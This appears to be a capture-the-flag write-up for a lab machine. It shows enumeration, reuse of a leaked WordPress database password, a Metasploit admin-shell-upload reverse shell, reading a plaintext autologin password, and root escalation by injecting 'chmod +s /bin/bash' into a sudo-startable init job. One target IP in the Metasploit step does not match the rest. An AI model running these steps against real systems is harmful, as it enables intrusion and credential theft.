





Target: 10.10.10.229

## Enumeration:

nmap
```
$ nmap -sC -sV 10.10.10.229

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 11:38 PDT
Nmap scan report for 10.10.10.229
Host is up (0.036s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE          VERSION
22/tcp   open  ssh              OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http             nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql            MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
8081/tcp open  blackice-icecap?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Wed, 21 Apr 2021 18:38:37 GMT
|     Connection: close
|     Hello World
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Wed, 21 Apr 2021 18:38:42 GMT
|     Connection: close
|_    Hello World
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8081-TCP:V=7.91%I=7%D=4/21%Time=60807120%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,71,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\nD
SF:ate:\x20Wed,\x2021\x20Apr\x202021\x2018:38:37\x20GMT\r\nConnection:\x20
SF:close\r\n\r\nHello\x20World\n")%r(FourOhFourRequest,71,"HTTP/1\.1\x2020
SF:0\x20OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Wed,\x2021\x20Apr\x2
SF:02021\x2018:38:37\x20GMT\r\nConnection:\x20close\r\n\r\nHello\x20World\
SF:n")%r(HTTPOptions,71,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/p
SF:lain\r\nDate:\x20Wed,\x2021\x20Apr\x202021\x2018:38:42\x20GMT\r\nConnec
SF:tion:\x20close\r\n\r\nHello\x20World\n");
```

gobuster
```
$ gobuster dir -u http://10.10.10.229 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -z

/main                 (Status: 301) [Size: 169] [--> http://10.10.10.229/main/]
/testing              (Status: 301) [Size: 169] [--> http://10.10.10.229/testing/]
```


checking 10.10.10.229


checking /main


wpscan
```
$ wpscan --url 10.10.10.229/main/ --enumerate u 

         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.10.229/main/ [10.10.10.229]
[+] Started: Wed Apr 21 11:50:27 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: nginx/1.17.4
 |  - X-Powered-By: PHP/5.6.40
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.229/main/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.10.229/main/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.229/main/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.10.229/main/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.10.229/main/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <==> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Apr 21 11:50:33 2021
[+] Requests Done: 52
[+] Cached Requests: 4
[+] Data Sent: 11.448 KB
[+] Data Received: 132.07 KB
[+] Memory used: 120.164 MB
[+] Elapsed time: 00:00:06
```

checking /testing


checking wp-config.php.save > view page source


wp-config.php.save
```php
<snip>
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
<snip>
```

DB creds:

devtest:devteam01

trying default wp creds, trying found user administrator with found db password devteam01



### Findings:Looking for attack vectors

The website runs on Wordpress v5.4.2 with credentials administrator:devteam01. 
Look for WP exploit/s CVE to RCE.


## Foothold:

This module takes an administrator username and password, logs into the admin panel, and uploads a payload packaged as a WordPress plugin. Becuase this is authenticated code execution by design, it should work on all versions of WordPress.

[Exploit Link](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/webapp/wp_admin_shell_upload.rb)

Metasploit
```
$ msfconsole
```

```
search wp admin shell
use exploit/unix/webapp/wp_admin_shell_upload
set USERNAME administrator
set PASSWORD devteam01
set TARGETURI /main
set RHOSTS 10.10.10.233
set LHOST tun0
run
```

```
id

uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```


## Lateral Movement:

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

enumerating users
```
bash-4.3$ cd /home

bash-4.3$ ls

katie  nginx
```

looking for suspicious file/s (config/logs)
```
bash-4.3$ cd /opt

bash-4.3$ ls -la

total 44
drwxr-xr-x 10 root root 4096 Feb  3 16:42 .
drwxr-xr-x 22 root root 4096 Feb  2 14:52 ..
drwxr-xr-x  2 root root 4096 Jun 28  2020 VirtualBox
-rw-r--r--  1 root root  978 Feb  3 16:02 autologin.conf.orig
drwxr-xr-x  2 root root 4096 Jan 15 15:53 broadcom
drwxr-xr-x  2 root root 4096 Jan 15 15:54 displaylink
drwxr-xr-x  2 root root 4096 Jan 15 15:53 eeti
drwxr-xr-x  5 root root 4096 Jan 15 15:55 google
drwxr-xr-x  6 root root 4096 Feb  2 15:15 neverware
drwxr-xr-x  5 root root 4096 Jan 15 15:54 tpm1
drwxr-xr-x  5 root root 4096 Jan 15 15:54 tpm2

bash-4.3$ cat autologin.conf.orig

# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
```

autologin.conf starts after boot then reads a password file in these two locations /mnt/stateful_partition/etc/autologin /etc/autologin and if passwd file is present then assign the contents of the file to variable passwd.


following the path /etc/autologin
```
bash-4.3$ cd /etc/autologin

bash-4.3$ ls -la

total 12
drwxr-xr-x  2 root root 4096 Feb  3 16:43 .
drwxr-xr-x 63 root root 4096 Feb 11 10:24 ..
-rw-r--r--  1 root root   19 Feb  3 16:43 passwd

bash-4.3$ cat passwd

SummerHereWeCome!!
```

Loot:

katie:SummerHereWeCome!!

ssh to the machine
```
$ ssh katie@10.10.10.229

-bash-4.3$ id

uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
```

```
-bash-4.3$ cat user.txt

<redacted>
```


## Priv Escalations:

having katie's password run sudo -l
```
-bash-4.3$ sudo -l

User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

researching what does sbin/initctl do

[initctl manpage](http://manpages.ubuntu.com/manpages/xenial/man8/initctl.8.html)

based on what initctl can do. katie can manage jobs in /opt/init directory
```
-bash-4.3$ cd /opt/init

-bash-4.3$ ls -la 

-rw-rw----  1 root developers   478 Jun 29  2020 test.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test1.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test10.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test2.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test3.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test4.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test5.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test6.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test7.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test8.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test9.conf

-bash-4.3$ cat test.conf

description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

listing all jobs with test in the name
```
-bash-4.3$ sudo /sbin/initctl list | grep test

test stop/waiting
test1 stop/waiting
test7 stop/waiting
test6 stop/waiting
test5 stop/waiting
test4 stop/waiting
test10 stop/waiting
test9 stop/waiting
test8 stop/waiting
test3 stop/waiting
test2 start/running, process 443
```

editing test.conf
```
script

    chmod +s /bin/bash
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script
```

running test.conf
```
-bash-4.3$ sudo /sbin/initctl start test

test start/running, process 14232
```

run to get root
```
-bash-4.3$ /bin/bash -p

bash-4.3# id

uid=20156(katie) gid=20157(katie) euid=0(root) egid=0(root) groups=0(root),20157(katie),20158(developers)
```

```
bash-4.3# cat /root/root.txt

<redacted>
```
